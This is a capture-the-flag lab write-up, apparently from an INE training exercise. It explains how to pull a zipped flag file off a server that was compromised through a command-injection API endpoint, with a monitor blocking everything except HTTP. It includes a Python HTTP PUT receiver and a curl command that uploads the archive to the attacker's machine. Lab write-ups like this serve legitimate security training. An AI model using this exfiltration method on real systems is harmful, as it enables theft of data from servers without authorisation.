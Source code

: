 # Data Exfiltration
You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a low privilege user i.e. student. A sensitive flag file is kept in a zipped archive file in the student user's home directory.

Also, there is a monitor process running on the server machine that blocks most protocols except HTTP protocol (when using port 80).

**Objective:** Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

**Tools**
- Nmap
- A web browser
- Python scripting
- curl

**Instructions**
- Once you start the lab, you will have access to the Kali GUI instance
- The API endpoint is accessible at demo.ine.local domain!

![Instruction](instruction.png)

## 1. Find the open port
Nmap the demo.ine.local domain:
![nmap](nmap.png)

Found an open port at 8000 is open at target machine.

## 2. Browse to the open port
Open a websbrower at browse to the ip:port
![target](target.png)

We can observe the "cmd parameter required" response. This means that we need to pass a parameter names with the URL.

## 3. Locate the flag.zip
Find the location of the present working directory and print out all the element in the directory.

First working directory:
![pwd](pwd.png)
We are at the /home/student directory.

Element in the working directory:
![ls](ls.png)
We located the flag.zip archieve. In order to get the flag, we need to transfer this file to our Kali Machine.

## 4. Check if curl is present on the remote machine
Run a cmd help command for Curl.
![curl](curl.png)
Curl is present at the remote machine.

## 5. Check the interface of current remote machine
Run $ipconfig.
![ipconfig](ipconfig.png)
The interface ip is 192.110.75.2.

## 6. Run a HTTP server to accept and save the archieve file
Following code can be used for HTTP server.
```python
#!/usr/bin/python

import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

## 7. Curl and upload the archieve file
Run the cmd **$curl 192.110.75.2 --upload-file flag.zip** to upload the file to the http server.
![upload](upload.png)
Then check the response from the server
![response](response.png)
The server accepted the archieve.

## 8. Unzip the file to locate the flag
The last steps to get the flag.
![getflag](getflag.png)
